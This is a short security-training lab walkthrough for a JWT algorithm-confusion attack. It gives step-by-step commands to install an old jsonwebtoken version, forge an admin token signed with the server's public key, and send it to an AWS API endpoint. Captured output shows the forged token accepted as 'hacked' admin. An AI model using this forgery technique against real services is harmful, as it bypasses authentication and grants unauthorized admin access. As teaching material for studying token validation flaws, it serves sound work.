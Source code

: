## Algorithm Confussion

* SSH into the server given to you
* Run: `cd /root/serverless-training-apps/jwt_example`
* Run: `npm install -s jsonwebtoken@4.2.0 colors`
* Run `node token_gen.js --file public_key.pem --username admin`
* Copy the token after the characters `This is your token: `
* Run `http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/confusion Authorization:<copied token>`

    ```commandline
    root@we45-VirtualBox:/home/we45# http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/confusion Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwic3RhdHVzIjoiaGFja2VkIiwiaWF0IjoxNTM3ODgwMjg2fQ.29E-i4QD21pvpA41oEJx60haJoOpgqbpzbvE6OK-Exg
    HTTP/1.1 200 OK
    Access-Control-Allow-Credentials: true
    Access-Control-Allow-Headers: Content-Type,Authorization,X-Amz-Date,X-Api-Key,X-Amz-Security-Token
    Access-Control-Allow-Methods: GET,OPTIONS
    Access-Control-Allow-Origin: *
    Access-Control-Max-Age: 0
    Connection: keep-alive
    Content-Length: 114
    Content-Type: application/json
    Date: Tue, 25 Sep 2018 17:12:14 GMT
    Via: 1.1 5bc1c4711561ec9e65e05f2ef18f000a.cloudfront.net (CloudFront)
    X-Amz-Cf-Id: JquwGQ1bb1vr5ev4oFF6R8e5MqbzM-YqyVvEJJKaz7fPN0nRlly3rw==
    X-Amzn-Trace-Id: Root=1-5baa6c6d-a196d3961775849ef9a9ffc4;Sampled=1
    X-Cache: Miss from cloudfront
    X-Success-Request: true
    x-amz-apigw-id: NyXhKFUHoAMFscA=
    x-amzn-RequestId: 25718e25-c0e6-11e8-86e5-dddb808cd601
    
    {
        "decoded": {
            "iat": 1537880286, 
            "status": "hacked", 
            "username": "admin"
        }, 
        "success": "You are successfully authenticated"
    }
    
    ```
